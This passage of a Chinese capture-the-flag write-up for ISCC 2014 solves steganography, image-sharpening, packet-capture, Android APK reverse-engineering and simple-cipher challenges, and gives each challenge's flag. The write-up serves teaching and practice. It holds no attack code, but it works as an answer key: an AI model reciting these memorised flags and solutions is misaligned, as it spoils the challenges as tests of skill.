FileStream outputFS = new FileStream(outputFile, FileMode.Append, FileAccess.Write);
BinaryReader br = new BinaryReader(inputFS);
StreamWriter sw = new StreamWriter(outputFS);

int length = (int)inputFS.Length;
byte[] buffer = new byte[length];
inputFS.Read(buffer, 0, buffer.Length);

int n = length / 16;
for (int i = 0; i < n; i++)
{
    string ch = "";
    for (int j = 0; j < 16; j += 2)
    {
        if (buffer[j + i * 16] == 0x01)
            ch += "1";
        if (buffer[j + i * 16] == 0x00)
            ch += "0";
    }
    sw.Write((char)Convert.ToInt32(ch,2));
}
br.Close();
sw.Close();
inputFS.Close();
outputFS.Close(); 
```

运行结果 156.txt：


Carser 一下，即能看到 Flag。


Flag：`Jerusalembellsareringing`

## 秦晋之好

* * *

打开附件图片，放大后在 lena 背上隐约能看到一个字母 P，Flag 应该就写在图片上，需要对图片进行锐化。Matlab 锐化代码如下：

```
>> ima=imread('ifs.bmp');%读入图像
>> if isrgb(ima)
ima=rgb2gray(ima);%如果是彩色图像，则转为灰度图像
end
>> ima=double(ima);
>> h=fspecial('laplacian');%laplacian 算子锐化
>> bw = imfilter(ima,h);
>> imwrite(uint8(bw),'ifs1.bmp');%写入文件 
```

得到 ifs1.bmp：


已经隐约能看到 Flag 了，对 ifs1.bmp 再进行如上的操作，每次将上一次的结果做同样处理，累计进行四次能看到清晰的 Flag。


Flag：`At10ISCC421ZLAPL`

## 穆公亡马

* * *

解压附件得到 capture.log，用 wireshark 打开文件。扫描之前需要 ping 目标主机，以确保一下机器是存活的，从而目标转为寻找第五次的 ping 包。Ping 包是 ICMP 协议，但是这里我不明白为什么第五次扫描的 ICMP 包是 192.168.0.1 那个。


Flag：`1602.084879`

## 秦人卧底

* * *

下载附件得到一个 apk 和一个加密的日志文件，用 Gapktool 反编译 apk。


这里使用 Gapktool 得到的 res 文件夹中 values 文件夹内容不全，我用了另一个反编译工具再编译了一次，得到了比较完整的 values 文件夹。 查看反编译得到的代码：com.iscc.lockednote.MainActivity.java



可以看出密码有两层，第 1 层密码的值为 mConstant.a()，第 2 层密码的值为 mConstant.b()。 这是 mConstant 的定义：


查看 com.iscc.local.a.java，我们需要得到 a()和 b()的返回值。先看 a.()：


`sb = a.t()+a.g()+a.a()+a.o()`，这里的 a 的定义是 private b a; a 是一个 b 类，具体定义在 com.iscc.local.b.java 中，到 b.java 中查看，先把 a.t()放到一边，暂时先看 a.g()：


a.g()返回某个叫 0x7f05000d 的东西的文本值，到 res 文件夹找找： public.xml：


原来是`id=”0x7f05000d”`，其`name=”h”`，还不是我们要的文本值，继续查找`name=”h”`的东西，`strings.xml`：


`name=”h”`，对应的文本值也是 h，这样`a.g()=”h”`。 同样的我们可以得到其他一些函数的返回值，具体如下：

```
a.a()=”a”  a.b()=”b”  a.c()=”e”  a.d()=”c”  a.e()=”d”  a.f()=”g”  a.g()=”h”
a.h()=”f”  a.i()=”l”  a.j()=”i”  a.k()=”k”  a.l()=”n”  a.m()=”o”  a.n()=”s”
a.o()=”t”  a.p()=”r”  a.q()=”u”  a.r()=”y”  a.s()=”z” 
```

从而依据 mConstant.a()的定义，我们有：

```
sb=a.t()+”hat”
sb1= sb+b.u()+”bad”= a.t()+”hat”+ b.u()+”bad”
s=sb1+b.u()=a.t()+”hat”+ b.u()+”bad”+b.u()
sb2=”luck”
s1=sb2+b.u()+”recently”=”luck”+b.u()+”recently”
a()=s+s1=a.t()+”hat”+ b.u()+”bad”+b.u()+”luck”+b.u()+”recently” 
```

下面来看 a.t()和 b.u()，到 b.java 里面查看定义：

```
a.t(){return b;}  b.u(){return a;}  b.v(){return c;} 
```

这里的返回值 a b c 的定义是：


都被初始化为” ”，似乎`a.t()=b.u()=b.v()=” ”`，但是`“ hat bad luck recentl”`拿到手机上输入却提示密码错误，还有问题，仔细再看看代码，原来在 MainActivity.java 中字符串变量 a 和 b 的值被重新赋值了：


在 public.xml 中可以查到`id=”0x7f070001”`和`”0x7f070002”`对应的 name 分别是：


在/layout/activity_main.xml 下可以看到：


再到 strings.xml 中得到`w→”w”，d8→”_”`，从而变量 a 和 b 被重新赋值为”w”和”_”，变量 c 没有重新赋值，保持初始化的值” ”。 从而我们得到`a()=”what_bad_luck_recently”`，这就是第一层密码。第二层密码就简单多了，注意到`b.v(){return c;}=” ”`。


很容易得到`b()=”it is best not to do anything when you feel like crazy”`，提交第二层密码就是 Flag。 Flag：`it is best not to do anything when you feel like crazy`

## 秦国未来

* * *

粗看密文，发现每三位的数字基本上都是在 100-255 之间，不是三位的有 58，97，98，故在这三个数前面各添加 1 个 0，得到`058128178205200226193178205200198197213225209168156150134117098097101177`，密文的长度也从 69 变成了 72，刚好也是 8 的倍数。转成 16 进制得到`3a80b2cdc8e2c1b2cdc8c6c5d5e1d1a89c968675626165b1`，看不出是个什么东西，拿到解密网站去解也没啥用。故转向附件中的 Linux 可执行文件，IDA 打开，在 sub_821C 函数中分析得出密文[i]=明文[i]+明文[i-1]。拿到浏览器控制台计算：


Flag：`Flag_for_ISCC2014`

版权声明：未经授权禁止转载 [F1uYu4n](http://drops.wooyun.org/author/F1uYu4n "由 F1uYu4n 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [雅虎某分站的 XSS 导致雅虎邮箱沦陷](http://drops.wooyun.org/papers/1024)
*   [老外的一份渗透测试报告](http://drops.wooyun.org/papers/576)
*   [Duo Security 研究人员对 PayPal 双重验证的绕过](http://drops.wooyun.org/papers/2502)
*   [CVE-2014-3393 详细分析与复现](http://drops.wooyun.org/papers/3451)
*   [第五季极客大挑战 writeup](http://drops.wooyun.org/tips/3434)
*   [Open Wifi SSID Broadcast vulnerability](http://drops.wooyun.org/wireless/2891)